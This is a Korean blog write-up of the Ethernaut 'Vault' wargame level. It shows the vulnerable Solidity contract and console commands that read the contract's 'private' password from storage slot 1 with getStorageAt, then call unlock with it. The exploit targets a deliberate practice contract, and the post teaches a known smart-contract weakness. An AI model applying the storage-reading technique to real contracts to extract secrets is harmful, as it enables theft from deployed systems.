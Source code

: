 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 8) Vault
date: '2022-01-10 19:18:00'
author: 한성원
tags: ethernaut Force vulnerability
categories: 취약점분석
---
```



# 👋 Force
__Difficulty 3/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- vault를 unlock하면 승리한다.
- locked 변수를 false로 만들기

- - -

## 코드 분석
분석은 주석에!

```solidity
contract Vault {

    bool public locked;
    
    // private으로 정의된 비밀번호
    bytes32 private password;

    // constructor: password를 parameter로 받음
    constructor(bytes32 _password) public {
        // valut의 lock을 건다
        locked = true;
        // parameter password를 private 변수에 저장
        password = _password;
    }

    // 올바른 비밀번호를 입력하면 vault를 unlock할 수 있는 function
    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```
- - -

## 풀이
이 문제에서 우리의 목표는 vault를 unlock하는 것이다.

위에 코드에서 보다싶이 우리는 올바른 비밀 번호를 가지고 unlock()을 실행시키면 vault를 unlock 할 수 있다는 것을 알 수 있다. 여기서 유심히 봐야할 점은 password가 smart contract에 저장되어 있다는 점이다. 블록체인 특성상 private으로 정의되었어도 외부에서 정보를 확인할 수 있다.

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// 우리는 web3 library를 사용한다.
// getStorageAt API를 사용하여 storage의 slot 1에 저장되어 있는 32 bytes의 data를 가져온다.
// 결과 값: 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
await web3.eth.getStorageAt(instance, 1)

// 얻은 password와 함꼐 unlock()을 실행시키면 vault가 unlock 된다!
await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")

// 얻은 password를 우리가 읽을 수 있게 바꾸고 싶다면?
// 결과 값: 'A very strong secret password :)'
await web3.utils.toAscii("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")

```

Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
이 문제를 완벽하게 이해하기 위해서는 slot, 즉 storage에 대한 깊은 이해가 필요하다. slot은 2^256개가 존재하며 각각 32 bytes를 store할 수 있다. variable type에 따라 하나의 slot에 여러개의 변수가 저장될 수 있으며 slot의 우측에서부터 저장된다.

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- selfdestruct 취약점: https://holyhansss.github.io/vulnerability/selfdestruct/selfdestruct/

```toc

```